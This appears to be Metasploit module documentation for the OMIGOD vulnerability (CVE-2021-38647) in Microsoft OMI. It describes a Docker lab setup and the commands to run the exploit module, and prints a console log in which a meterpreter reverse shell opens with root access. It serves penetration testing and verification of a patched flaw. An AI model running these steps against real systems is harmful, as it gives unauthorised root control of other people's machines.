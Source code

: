 ## Vulnerable Application

By removing the authentication header, an attacker can issue an HTTP request to the OMI management endpoint that will
cause it to execute an operating system command as the root user. This vulnerability was patched in OMI version 1.6.8-1
(released September 8th 2021)

## Verification Steps

1. Start the application using the [Censys Dockerfile][1]
    1. `docker build . -t ms-omi:cve-2021-38647`
    2. `docker run --name cve-2021-38647 --rm -d -p 5985:5985 ms-omi:cve-2021-38647`
2. Start `msfconsole`
3. Do: `use exploit/linux/misc/cve_2021_38647_omigod`
4. Set the module options
5. Do: `exploit`
6. You should get a shell.

## Options

## Scenarios

### Ubuntu 20.04 x64, OMI v1.6.8, SCX v1.6.6

```
msf6 > use exploit/linux/misc/cve_2021_38647_omigod
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/misc/cve_2021_38647_omigod) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(linux/misc/cve_2021_38647_omigod) > check
[+] 192.168.159.128:5985 - The target is vulnerable. Command executed as uid 0.
msf6 exploit(linux/misc/cve_2021_38647_omigod) > set TARGET Linux\ Dropper 
TARGET => Linux Dropper
msf6 exploit(linux/misc/cve_2021_38647_omigod) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/misc/cve_2021_38647_omigod) > exploit

[*] Started reverse TCP handler on 192.168.159.128:8443 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Command executed as uid 0.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3012548 bytes) to 192.168.159.128
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:8443 -> 192.168.159.128:41066 ) at 2021-10-26 10:53:18 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.0.2.100
OS           : Ubuntu 20.04 (Linux 5.14.11-200.fc34.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

[1]: https://gist.github.com/dabdine/ac6aadde068cad4d58251453e688a84f
